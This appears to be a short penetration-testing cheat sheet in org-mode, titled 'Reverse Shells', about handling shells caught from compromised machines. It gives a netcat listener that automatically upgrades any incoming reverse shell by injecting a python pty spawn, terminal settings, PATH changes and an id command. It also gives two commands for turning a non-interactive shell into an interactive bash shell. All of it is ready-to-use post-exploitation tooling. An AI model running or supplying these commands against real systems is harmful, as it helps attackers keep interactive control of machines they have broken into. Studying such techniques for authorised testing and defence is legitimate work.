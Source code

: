 #+title: 🐚 Reverse Shells

* Automatically upgrade a shell

By using the following listener any connecting shell will run ~python3~ to get an interactive shell, and it will instantly run ~stty raw -echo~ to make sure arrows and control characters work.

#+begin_src shell
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 1234 && reset
#+end_src

* Upgrade a non-interactive shell

** Using python

#+begin_src
python3 -c 'import pty; pty.spawn("/bin/bash");'
#+end_src

** Using the script command
#+begin_src
script /dev/null -c bash
#+end_src
